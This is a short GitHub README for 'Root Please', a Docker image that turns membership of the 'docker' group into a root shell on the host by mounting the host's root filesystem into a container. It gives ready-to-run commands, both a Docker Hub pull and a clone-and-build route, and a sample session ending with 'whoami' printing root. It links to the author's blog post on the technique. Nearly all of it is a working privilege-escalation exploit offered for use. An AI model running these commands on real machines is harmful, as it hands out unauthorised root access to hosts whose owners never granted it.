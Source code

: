 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a
root shell on the host OS. [See my blog post for
details](https://fosterelli.co/privilege-escalation-via-docker).

How to Use
----------

Through Docker Hub:

```bash
> docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -it --rm rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```

